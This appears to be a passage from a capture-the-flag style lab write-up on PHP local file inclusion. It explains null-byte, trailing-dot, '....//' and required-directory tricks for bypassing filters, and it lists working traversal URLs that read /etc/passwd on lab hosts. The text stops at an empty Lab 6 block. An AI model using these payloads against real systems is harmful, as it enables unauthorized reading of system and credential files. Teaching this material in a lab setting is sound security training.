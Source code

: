 NOTE: the ```%0```0 trick is fixed and not working with PHP 5.3.4 and above.

Now apply what we showed in Lab #3, and try to read files /etc/passwd, answer question #1 below.

2. In this section, the developer decided to filter keywords to avoid disclosing sensitive information! The ```/etc/passwd``` file is being filtered. There are two possible methods to bypass the filter. First, by using the NullByte ```%00``` or the current directory trick at the end of the filtered keyword ```/.```. The exploit will be similar to ```http://webapp.thm/index.php?lang=/etc/passwd/.``` We could also use ```http://webapp.thm/index.php?lang=/etc/passwd%00```.

To make it clearer, if we try this concept in the file system using ```cd ..```, it will get you back one step; however, if you do ```cd .```, It stays in the current directory. Similarly, if we try ```/etc/passwd/..```, it results to be ```/etc/``` and that's because we moved one to the root. Now if we try ```/etc/passwd/.```, the result will be ```/etc/passwd``` since dot refers to the current directory.

Now apply this technique in Lab #4 and figure out to read /etc/passwd.

3. Next, in the following scenarios, the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!
```http://webapp.thm/index.php?lang=../../../../etc/passwd```

We got the following error!
```
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

If we check the warning message in the ```include(languages/etc/passwd)``` section, we know that the web application replaces the ```../``` with the empty string. There are a couple of techniques we can use to bypass this.

First , we can send the following payload to bypass it: ```....//....//....//....//....//etc/passwd```

### Why did this work?
This works because the PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass, leaving what is pictured below.

![](images/30d3bf0341ba99485c5f683a416a056d.png)

Try out Lab #5 and try to read /etc/passwd and bypass the filter!

4. Finally, we'll discuss the case where the developer forces the include to read from a defined directory! For example, if the web application asks to supply input that has to include a directory such as: ```http://webapp.thm/index.php?lang=languages/EN.php``` then, to exploit this, we need to include the directory in the payload like so: ```?lang=languages/../../../../../etc/passwd```.

Try this out in Lab #6 and figure what the directory that has to be present in the input field is.

##### Lab 3
```
http://10.10.109.41/lab3.php?file=../../../../etc/passwd%00
```

##### Lab 4
```
http://10.10.109.41/lab4.php?file=../../../../etc/passwd%00
http://10.10.109.41/lab4.php?file=../../../../etc/passwd/.
```

##### Lab 5
```
http://10.10.109.41/lab5.php?file=....//....//....//....//....//etc/passwd
```

##### Lab 6
```